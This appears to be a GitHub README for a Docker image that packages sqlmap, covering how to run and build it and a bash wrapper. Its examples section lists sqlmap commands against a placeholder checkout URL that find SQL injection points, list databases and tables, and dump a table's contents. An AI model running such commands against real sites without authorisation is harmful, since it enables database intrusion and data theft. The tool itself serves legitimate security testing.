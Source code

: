 paoloo/sqlmap
=============

Docker image for [sqlmap](http://sqlmap.org/)

Usage with my image from dockerhub:

		$ docker run --rm -it -v /tmp/sqlmap:/root/.sqlmap/ paoloo/sqlmap --url www.example.com/?id=1

and the report will be found at /tmp/sqlmap. 

If you want to modify and/or build this image:
```
		$ git clone git@github.com:paoloo/dockered-sqlmap.git
		$ chmod +x buildv2.sh
		$ ./buildv2.sh
```
Ths script will do everything to build the docker image contained in docker hub.

On older version, you would have to:
```
		$ git clone git@github.com:paoloo/dockered-sqlmap.git
		$ cd dockered-sqlmap/
		$ docker build -t paoloo/sqlmap .
```
You can create a bash wrapper for docker run commands in you `.bashrc`
or similar:

```bash
sqlmap(){
docker run --rm -it \
  -v /tmp/sqlmap:/root/.sqlmap/ \
  paoloo/sqlmap "$@"
}
```

#### SQLMAP EXAMPLES
- to find basic vulnerabilities

```$ docker run --rm -it -v /tmp/sqlmap:/root/.sqlmap/ paoloo/sqlmap --url "http://www.site.com/checkout.php?id=10"```
- to deeply inspect found exploitable point and get databasename
 
```$ docker run --rm -it -v /tmp/sqlmap:/root/.sqlmap/ paoloo/sqlmap --url "http://www.site.com/checkout.php?id=10" --dbs```
- list tables from found databas databasename
 
```$ docker run --rm -it -v /tmp/sqlmap:/root/.sqlmap/ paoloo/sqlmap --url "http://www.site.com/checkout.php?id=10" -D databasename --tables```
- dump table tablename from database databasename
 
```$ docker run --rm -it -v /tmp/sqlmap:/root/.sqlmap/ paoloo/sqlmap --url "http://www.site.com/checkout.php?id=10" -D databasename -T tablename --dump```

#### Enjoy
